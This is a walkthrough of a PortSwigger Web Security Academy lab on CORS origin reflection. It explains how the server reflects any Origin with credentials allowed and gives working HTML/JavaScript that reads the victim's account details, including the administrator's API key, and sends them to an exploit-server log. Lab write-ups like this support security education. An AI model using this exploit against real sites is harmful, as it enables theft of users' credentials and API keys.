



# CORS vulnerability with basic origin reflection
# Objective
This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The `GET` request to `/accountDetails` retrieves: username, email, API key and active user sessions.
||
|:--:| 
| *Normal request and response* |

After adding `Origin` header to the request, the application reflects the origin in `Access-Control-Allow-Origin` header. Header `Access-Control-Allow-Credentials: true` is also present in response from server.
||
|:--:| 
| *Reflected origin in response* |

## Exploitation
In order to exploit this CORS vulnerability, attacker can use the followinng code:
```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial">
    </head>
    <body>
        <h4>Exploit</h4> 
        <script>
            const request = new XMLHttpRequest();
            request.open("get","https://0a3b0009039f11b0803c6ccd009d006b.web-security-academy.net/accountDetails", true);
            request.onload = ()=> {
                window.location.href = "/log?key=" + request.responseText
            }
            request.withCredentials = true;
            request.send();
        </script>
    </body>
</html>
```

||
|:--:| 
| *Log with administrator API key* |
||
| *URL decoded data* |
